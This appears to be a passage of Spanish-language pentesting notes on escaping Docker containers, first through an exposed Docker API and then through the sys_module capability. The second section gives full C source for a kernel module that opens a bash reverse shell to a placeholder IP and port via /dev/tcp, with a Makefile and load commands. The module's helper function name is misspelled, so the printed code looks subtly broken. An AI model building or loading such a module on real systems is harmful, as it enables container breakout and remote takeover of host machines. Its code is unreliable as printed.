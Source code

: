 De esta manera, si vemos que la API de docker esta activa en la máquina host, podríamos crear un contenedor como lo haríamos normalmente desde consola y manipular el contenido de la máquina host, pudiendo leer el etc/shadow, agregando el permiso SUID a la bash, etc. 

------
# Cap sys_module 

En caso de ejecutar un **linpeas.sh**, o listar de manera manual las capabilities con `capsh --print` y localizar que el contenedor contiene la capabilitie **sys_module**, como resultado el contenedor puede insertar y/o remover modules del kerner en la máquina host del contenedor. 

Una vez con la IP de la máquina host, haríamos uso del siguiente script en **c**.

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/{ip}/{port} 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL};
static int __init reverse_shell_init(void) {
return call_usermodelhelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Ahora habría que crear un archivotarget **makefile**:

```Makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

Ejecutamos el comando `make`, luego podríamos proceder a ponernos en escucha por el puerto aclarado en la máquina host (O donde querramos envíar la reverse shell).

Ejecutamos el comando `insmod reverse-shell.ko`, y al hacerlo se ejecutaría el comando ingresado, en este caso en las primeras líneas del archivo **c** se indicio `/bin/bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'





